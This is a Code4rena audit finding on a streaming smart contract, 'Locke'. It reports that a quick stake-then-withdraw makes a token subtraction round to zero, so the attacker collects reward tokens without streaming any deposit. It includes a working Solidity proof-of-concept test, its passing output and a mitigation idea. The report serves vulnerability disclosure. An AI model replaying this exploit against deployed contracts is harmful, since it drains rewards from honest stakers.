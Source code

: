 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [Creating rewardTokens without streaming depositTokens](https://github.com/code-423n4/2021-11-streaming-findings/issues/166) 

# Handle

bitbopper


# Vulnerability details

## Impact

`stake` and `withdraws` can generate rewardTokens without streaming depositTokens. 
It does not matter whether the stream is a sale or not.

The following lines can increase the reward balance on a `withdraw` some time after `stake`:
https://github.com/code-423n4/2021-11-streaming/blob/main/Streaming/src/Locke.sol#L219:L222
```
// accumulate reward per token info
cumulativeRewardPerToken = rewardPerToken();

// update user rewards
ts.rewards = earned(ts, cumulativeRewardPerToken);
```


While the following line can be gamed in order to not stream any tokens (same withdraw tx). 
Specifically an attacker can arrange to create a fraction less than zero thereby substracting zero.
https://github.com/code-423n4/2021-11-streaming/blob/56d81204a00fc949d29ddd277169690318b36821/Streaming/src/Locke.sol#L229
```
ts.tokens -= uint112(acctTimeDelta * ts.tokens / (endStream - ts.lastUpdate));
// WARDEN TRANSLATION: (elapsedSecondsSinceStake * stakeAmount) / (endStreamTimestamp - stakeTimestamp)
```

A succesful attack increases the share of rewardTokens of the attacker.
The attack can be repeated every block increasing the share further.
The attack could be done from multiple EOA increasing the share further.
In short: Attackers can create loss of funds for (honest) stakers.

The economic feasability of the attack depends on:
- staked amount (times number of attacks) vs total staked amount
- relative value of rewardToken to gasprice 


## Proof of Concept

### code 

The following was added to `Locke.t.sol` for the `StreamTest` Contract to simulate the attack from one EOA.

```
    function test_quickDepositAndWithdraw() public {
        //// SETUP
        // accounting (to proof attack): save the rewardBalance of alice.
        uint StartBalanceA = testTokenA.balanceOf(address(alice));
        uint112 stakeAmount = 10_000;

        // start stream and fill it
        (
            uint32 maxDepositLockDuration,
            uint32 maxRewardLockDuration,
            uint32 maxStreamDuration,
            uint32 minStreamDuration
        ) = defaultStreamFactory.streamParams();

        uint64 nextStream = defaultStreamFactory.currStreamId();
        Stream stream = defaultStreamFactory.createStream(
            address(testTokenA),
            address(testTokenB),
            uint32(block.timestamp + 10), 
            maxStreamDuration,
            maxDepositLockDuration,
            0,
            false
            // false,
            // bytes32(0)
        );
        
        testTokenA.approve(address(stream), type(uint256).max);
        stream.fundStream(1_000_000_000);

        // wait till the stream starts
        hevm.warp(block.timestamp + 16);
        hevm.roll(block.number + 1);

        // just interact with contract to fill "lastUpdate" and "ts.lastUpdate" 
	// without changing balances inside of Streaming contract
        alice.doStake(stream, address(testTokenB), stakeAmount);
        alice.doWithdraw(stream, stakeAmount);


        ///// ATTACK COMES HERE
        // stake
        alice.doStake(stream, address(testTokenB), stakeAmount);

        // wait a block
        hevm.roll(block.number + 1);
        hevm.warp(block.timestamp + 16);

        // withdraw soon thereafter
        alice.doWithdraw(stream, stakeAmount);

        // finish the stream
        hevm.roll(block.number + 9999);
        hevm.warp(block.timestamp + maxDepositLockDuration);

        // get reward
        alice.doClaimReward(stream);
 

        // accounting (to proof attack): save the rewardBalance of alice / save balance of stakeToken
        uint EndBalanceA = testTokenA.balanceOf(address(alice));
        uint EndBalanceB = testTokenB.balanceOf(address(alice));

        // Stream returned everything we gave it
        // (doStake sets balance of alice out of thin air => we compare end balance against our (thin air) balance)
        assert(stakeAmount == EndBalanceB);

        // we gained reward token without risk
        assert(StartBalanceA == 0);
        assert(StartBalanceA < EndBalanceA);
        emit log_named_uint("alice gained", EndBalanceA);
    }
```

### commandline

```
dapp test --verbosity=2 --match "test_quickDepositAndWithdraw" 2> /dev/null
Running 1 tests for src/test/Locke.t.sol:StreamTest
[PASS] test_quickDepositAndWithdraw() (gas: 4501209)

Success: test_quickDepositAndWithdraw

  alice gained: 13227
```

## Tools Used

dapptools

## Recommended Mitigation Steps
Ensure staked tokens can not generate reward tokens without streaming deposit tokens. First idea that comes to mind is making following line
`https://github.com/code-423n4/2021-11-streaming/blob/56d81204a00fc949d29ddd277169690318b36821/Streaming/src/Locke.sol#L220`
dependable on a positive amount > 0 of:
`https://github.com/code-423n4/2021-11-streaming/blob/56d81204a00fc949d29ddd277169690318b36821/Streaming/src/Locke.sol#L229`

